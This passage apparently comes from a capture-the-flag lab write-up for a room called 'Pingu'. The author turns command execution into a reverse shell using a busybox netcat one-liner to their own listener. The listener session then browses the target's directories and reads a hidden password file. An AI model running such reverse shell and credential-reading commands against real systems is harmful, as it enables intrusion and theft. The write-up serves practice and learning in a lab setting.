 ### Command Execution

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access :

![Pasted image 20250723184412.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250723184412.png)

#### Reverse Shell

We set up our listener and execute the payload on the site, i used this and worked :

```bash
busybox nc 10.8.162.183 1337 -e sh             'https://www.revshells.com/'
```

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Pingu]
└─$ nc -lvnp 1337             
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.144.132] 33006
ls
2591c98b70119fe624898b1e424b5e91.php
administrator.php
index.html
cd ..
ls
html
cd ..
ls
backups
cache
hidden
lib
local
lock
log
mail
opt
run
spool
tmp
www
cd hidden
ls
pass
cat pass
'pinguapingu'


cd home
l
ls
```